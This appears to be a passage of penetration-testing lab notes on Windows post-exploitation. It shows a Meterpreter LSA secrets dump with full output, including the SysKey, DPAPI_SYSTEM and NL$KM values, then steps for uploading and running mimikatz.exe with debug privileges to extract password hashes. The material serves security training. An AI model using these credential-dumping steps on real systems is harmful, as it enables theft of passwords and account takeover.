 - Dump LSA secrets. This could provide with clear-text passwords

```
lsa_dump_secrets
```

```bash
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326

Local name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {47980b9c-8bd1-89c9-bfb5-0c4fca25e625}
  [00] {47980b9c-8bd1-89c9-bfb5-0c4fca25e625} 247e7be223db5e50291fc0fcec276ff8236c32a8a6183c5a0d0b6b044590ce06

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 34 5e 65 80 f9 04 a4 8c a5 0e 6c 74 6c d2 c3 b8 8e 7a ca c3 a3 3b 0e 6e 0a 64 f3 12 fc c7 92 67 a3 2f d5 d1 e4 41 33 ac 
    full: 345e6580f904a48ca50e6c746cd2c3b88e7acac3a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
    m/u : 345e6580f904a48ca50e6c746cd2c3b88e7acac3 / a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
old/hex : 01 00 00 00 c1 3a 28 e3 94 7b 64 5d 94 29 b4 c9 1c 9b 0c b1 b6 5a aa 2c 34 4d ee ed 86 74 0f 12 25 37 8c 38 69 b3 b4 53 b6 37 86 44 
    full: c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c344deeed86740f1225378c3869b3b453b6378644
    m/u : c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c / 344deeed86740f1225378c3869b3b453b6378644

Secret  : NL$KM
cur/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 
old/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2
```



### Hash Dumping - Mimikatz.exe

```bash
cd C:\\
mkdir Temp
cd Temp
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell
```

- Run `mimikatz.exe`

```bash
mimikatz.exe
privilege::debug
	Privilege '20' OK
# I have the required privileges for hash extraction from memory
```
